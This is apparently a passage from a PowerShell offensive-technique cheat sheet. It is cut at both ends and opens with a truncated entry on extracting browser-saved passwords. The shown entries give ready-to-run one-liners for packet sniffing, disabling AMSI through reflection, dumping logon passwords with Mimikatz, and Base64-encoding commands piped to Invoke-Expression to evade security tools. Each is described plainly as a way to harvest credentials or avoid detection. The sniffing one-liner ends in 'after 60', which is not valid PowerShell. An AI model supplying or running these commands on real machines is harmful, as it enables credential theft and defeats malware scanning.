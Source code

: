 Extracts passwords saved in web browsers and saves them to a file, useful for credential harvesting.

---

## **Conducting Network Sniffing**



`$adapter = Get-NetAdapter | Select-Object -First 1; New-NetEventSession -Name 'Session1' -CaptureMode SaveToFile -LocalFilePath 'C:\temp\network_capture.etl'; Add-NetEventPacketCaptureProvider -SessionName 'Session1' -Level 4 -CaptureType Both -Enable; Start-NetEventSession -Name 'Session1'; Stop-NetEventSession -Name 'Session1' after 60`

Sets up a network capture session to sniff packets, which can be analyzed for sensitive data or network troubleshooting.

---

## **Bypassing AMSI (Anti-Malware Scan Interface)**



`[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)`

Bypasses the Anti-Malware Scan Interface (AMSI) in PowerShell, allowing the execution of potentially malicious scripts without detection.

---

## **Extracting System Secrets with Mimikatz**



`Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"' | Out-File -FilePath C:\temp\logonpasswords.txt`

Uses Mimikatz to extract logon passwords and other sensitive data from system memory.

---

## **String Obfuscation**



`$originalString = 'SensitiveCommand'; $obfuscatedString = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($originalString)); $decodedString = [System.Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($obfuscatedString)); Invoke-Expression $decodedString`

Obfuscates a string (e.g., a command) using Base64 encoding to evade detection by security tools.

---

## **Command Aliasing**

